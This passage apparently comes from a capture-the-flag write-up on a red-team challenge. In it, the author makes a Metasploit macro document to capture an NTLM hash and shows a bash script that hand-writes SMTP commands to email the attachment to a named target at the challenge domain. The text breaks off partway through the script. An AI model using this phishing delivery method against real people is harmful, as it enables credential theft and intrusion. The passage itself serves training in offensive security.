 As the challenge description informs us we are looking for a NTLM hash, we will assume we target a Windows workstation. An other method to determine the target OS was to send a link to a callback IP and check the User-Agent, but I was too lazy to do a screenshot =D.

Then, we will create a docm using metasploit:

![Macro](/assets/redteam/MacroMeter.png)

And we will use the first script we find on a random github ([https://gist.github.com/boina-n/e43b996fa0f520c918e3ed6beb754447](https://gist.github.com/boina-n/e43b996fa0f520c918e3ed6beb754447){:target="_blank"}) to sent it:
```bash
#!/bin/bash

filename="/tmp/msf.docm"
subject="Subject of my email"
txtmessage="This is the message I want to send"

{
sleep 1;
echo "EHLO phealthycat.org"
sleep 1;
echo "MAIL FROM: <test@phealthycat.org>"
sleep 1;
echo "RCPT TO: <lucie.bayard@phealthycat.org>"
sleep 1;
echo "DATA"
sleep 1;
echo "Subject:" $subject
sleep 1;
echo "Content-Type: multipart/mixed; boundary="KkK170891tpbkKk__FV_KKKkkkjjwq""
sleep 1;
echo ""
sleep 1;
echo "This is a MIME formatted message.  If you see this text it means that your"
sleep 1;
echo "email software does not support MIME formatted messages."
sleep 1;
```